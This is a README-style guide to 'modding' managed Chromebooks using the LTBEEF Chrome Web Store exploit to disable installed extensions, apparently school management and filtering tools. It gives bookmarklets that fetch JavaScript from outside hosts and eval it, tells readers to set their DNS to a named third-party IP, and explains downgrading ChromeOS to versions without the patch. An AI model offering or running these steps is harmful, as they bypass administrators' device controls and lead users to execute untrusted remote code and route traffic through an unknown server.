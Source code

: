 # How to mod the chromebooks!
Making Chromebooks more vulnerable, one commit at a time.
Huge thanks to 3kh0 for alot of vulnerability's.
# LTBEEF
LTBEEF is an exploit, created by Bypassi#7037, which abuses api endpoints within the google chrome webstore.
Please Note: This exploit only works on versions below 106, and eariler versions of 102

The original site created for this exploit can be found at ltbeef.netlify.app

# Installation (LTBEEF)
There are several vesions of this exploit you can use, here are the 2 most common versions:

# Bookmarklets (LTBEEF)
To use a GUI, bookmark one of the below scripts:

Ingot
javascript:(function () {var a = document.createElement('script');a.src = 'https://cdn.jsdelivr.net/gh/FogNetwork/Ingot/ingot.min.js';document.body.appendChild(a);}())
Compact Cow's UI
javascript:fetch(`https://compactcow.com/ltbeef/exploit.js`).then(data=>{data.text().then(text=>{eval(text)})});
Compact Cow's UI (Dark)
javascript:void fetch(`https://raw.githubusercontent.com/3kh0/ext-remover/main/exploit.js`).then(d=>d.text()).then(eval);
Navigate to https://chrome.google.com/webstorex and click on that bookmark. Flip the switches on the extentions you want to disable. Simple!

# DNS servers (LTBEEF)
By changing your DNS server, you can use LTBEEF, even if bookmarklets are blocked.

First, go to Settings > Network > Wifi > Network, and click on "Custom Name Servers" image
Set every box there to the following ip:
`158.101.114.159` (Hosted by The Greatest Giant#0110)
Navigate to https://chrome.google.com/webstorex and click on that bookmark. Flip the switches on the extentions you want to disable.

# Downgrading
Downgrading can be used for several exploits, to get to a version that does not have patches for certain exploits, sutch as LTBEEF. This is a built in feature of ChromeOS.


# Requirements (DOWNGRADING)

A USB thumb drive with at least 4gb of storage, some board have small or bigger images, so have a beef usb, I recommend 16gb
A personal computer with access to downloading extentions
A brain
Setup

Navigate to chrome://version on the chromebook you with to downgrade and check for your board under "Platform" (ex I have a c3100 and it's board is stable-channel octopus)
 2. Navigate to https://chrome100.dev/ , press `ctrl+f` and type in your board 3. Find and download the chrome version you want to your personal computer
# Instlation (DOWNGRADING)

Install Chromebook Recovery Utility onto your personal computer 
(found at https://chrome.google.com/webstore/detail/chromebook-recovery-utili/pocpnlppkickgojjlmhdmidojbmbodfm?hl=en)
Open the extention, and click on the settings button in to top right hand corner, click "use local image"
Select the recovery image you downloaded from chrome100
Plug in the USB you wish to use, and follow the prompts on the screen
On your chromebook, press esc+reload+power and follow the prompts
On the checking for updates screen, press ctrl+shift+e to skip the "checking for updates" screen
Profit
